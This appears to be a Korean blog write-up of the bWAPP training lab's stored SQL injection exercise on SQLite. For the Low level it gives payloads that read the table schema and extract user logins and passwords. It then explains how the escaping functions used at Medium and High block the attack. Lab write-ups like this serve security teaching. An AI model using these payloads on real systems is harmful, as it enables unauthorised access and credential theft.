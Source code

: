 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Stored (SQLite)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/stored-sqlite-archive/image1.png)
- 이전과 동일하지만 DBMS의 종류가 SQLite이다.
- 공격 방식은 동일하지만 문법을 SQLite로 하면 된다.

![그림 1-2](/assets/image/bwapp/injection/stored-sqlite-archive/image2.png)
- users 라는 테이블 확인

```sql
test',(select tbl_sql from sqlite_master where tbl_name='users'))--
```

![그림 1-3](/assets/image/bwapp/injection/stored-sqlite-archive/image3.png)
- 각각의 컬럼명도 확인했다.

```sql
test',(select login||id||secret||password from users limit 1,1))--
```

![그림 1-4](/assets/image/bwapp/injection/stored-sqlite-archive/image4.png)

- 테이터 성공적으로 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.


